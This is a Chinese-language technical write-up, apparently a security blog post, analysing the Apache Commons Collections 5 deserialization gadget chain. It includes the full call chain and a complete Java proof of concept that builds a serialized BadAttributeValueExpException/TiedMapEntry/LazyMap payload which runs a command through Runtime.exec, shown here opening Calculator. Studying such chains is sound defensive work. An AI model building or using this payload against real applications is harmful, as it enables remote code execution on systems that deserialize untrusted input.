








Apache-Commons-Collections 5
目录
LazyMap+TideMap+BadAttributeValueExpException
版本
CommonsCollections 3.1 - 3.2.1，JDK 7u80 以上（低于7u80的BadAttributeValueExpException 无readObject方法）
利用链
调试该链时，因为涉及toString函数调用，所以idea调试请关闭此俩选项

ObjectInputStream.readObject()
BadAttributeValueExpException.readObject()
TiedMapEntry.toString()
LazyMap.get()
ChainedTransformer.transform()
ConstantTransformer.transform()
InvokerTransformer.transform()
Method.invoke()
Class.getMethod()
InvokerTransformer.transform()
Method.invoke()
Runtime.getRuntime()
InvokerTransformer.transform()
Method.invoke()
Runtime.exec()
POC
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
public class cc5 {
public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[] {
String.class, Class[].class }, new Object[] {
"getRuntime", new Class[0] }),
new InvokerTransformer("invoke", new Class[] {
Object.class, Object[].class }, new Object[] {
null, new Object[0] }),
new InvokerTransformer("exec",
new Class[] { String.class }, new Object[]{"open /System/Applications/Calculator.app"})});
HashMap innermap = new HashMap();
LazyMap map = (LazyMap)LazyMap.decorate(innermap,chain);
TiedMapEntry tiedmap = new TiedMapEntry(map,123);
BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
val.setAccessible(true);
val.set(poc,tiedmap);
try{
ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc5"));
outputStream.writeObject(poc);
outputStream.close();
ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc5"));
inputStream.readObject();
}catch(Exception e){
e.printStackTrace();
}
}
}
前半部分和CC1一样，后半部分引入了TiedMapEntry 和BadAttributeValueExpException ，我们来分析一下这俩东西。
TiedMapEntry
首先我们在CC1中已经知道了LazyMap的get方法会触发其在decorate中传入的Transfromer类的transform方法。

在TiedMapEntry类中存在方法getValue，会调用在构造函数中传入的map的get方法


而且在TiedMapEntry类中同时也存在方法toString会调用getValue方法

BadAttributeValueExpException
该类的readObject方法如下

这里会调用toString方法，然后进入TideMapEntry开始链的执行。 这里valObj就是val变量的值。
Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
val.setAccessible(true);
val.set(poc,tiedmap);
所以我们在POC中用反射将val变量进行了赋值，赋的值是恶意TiedMapEntry 对象。
这里有一个细节就是，val变量是可以通过构造函数赋值的。

但是如果用构造函数直接给val赋值的话，会导致val在赋值的时候便触发toString,导致在反序列化时，valObject的值改变，导致原本预期的逻辑改变，无法进入预想的分支。
这是预期的情况（通过后期反射赋值val）

这是非预期情况（通过构造函数直接给val赋值，这里的val值直接变成了一个字符串，不要以为是ProcessImpl对象！注意引号！）
